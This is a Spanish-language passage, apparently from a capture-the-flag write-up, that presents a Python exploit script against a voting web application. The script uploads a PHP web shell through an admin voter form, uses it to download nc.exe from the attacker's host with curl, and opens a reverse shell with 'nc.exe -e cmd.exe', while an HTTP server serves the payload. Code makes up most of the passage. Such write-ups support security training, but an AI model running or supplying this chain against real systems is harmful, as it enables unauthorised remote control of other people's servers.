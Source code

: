 Con la sesión iniciada, procedemos a subir un archivo php malicioso:

```python
def uploadshell():

    payload = """  <?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?> """ 

    files  = {'photo':('shell.php',payload)

        }

    post_data = {
            'firstname' :' lorem',
            'lastname':'lorem',
            'password':'lorem',
            'add':''
        }

    LoveVote= f'{LoveIP}/admin/voters_add.php'

    r = s.post(LoveVote, data= post_data,files=files)

    if r.status_code == 200:
            print("[+] Subida de shell existosa\n")
    else:
            print("[!] Subida de shell fallida\n")
            exit(1)
```

Con el archivo ya subido a la máquina, intentaremos subir el `nc.exe` a la máquina víctima:

```python
def uploadNC():
    ip = f'{LoveIP}/images/shell.php?cmd=curl {ipHost}/nc.exe -O nc.exe'
    r = s.get(ip)
```
Finalmente, nos conectamos con el `nc.exe` desde la máquina víctima:
```python
def conection():
    print('\t\n\n[+] Completando proceso, revise netcat\n')
    ip = f'{LoveIP}/images/shell.php?cmd=nc.exe -e cmd.exe {ipHost} {ipPort}'
    r = s.get(ip)
```

Dentro del main tenemos:
```python
if __name__ == '__main__':
    print(f'\n[+] Recuerda estar esperando conexión en netcat en el puerto {sys.argv[2]}\n\n')
    sleep(2)
    getNetcat()
    sqli()
    uploadshell()
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as so:
            so.bind(('localhost', 80))
            http_server = subprocess.Popen(["python3", "-m", "http.server", "80"])
    except OSError:
            print("\n[-] El puerto 80 se encuentra en uso, no se ha podido ejectuar el servidor")
   
    uploadNC()
    http_server.terminate()
    conection()
```
Obsevamos la llamada de las funciones y el subproceso que permite tener un servidor http con python para compartir el `nc.exe` y que la máquina víctima pueda descargarlo.
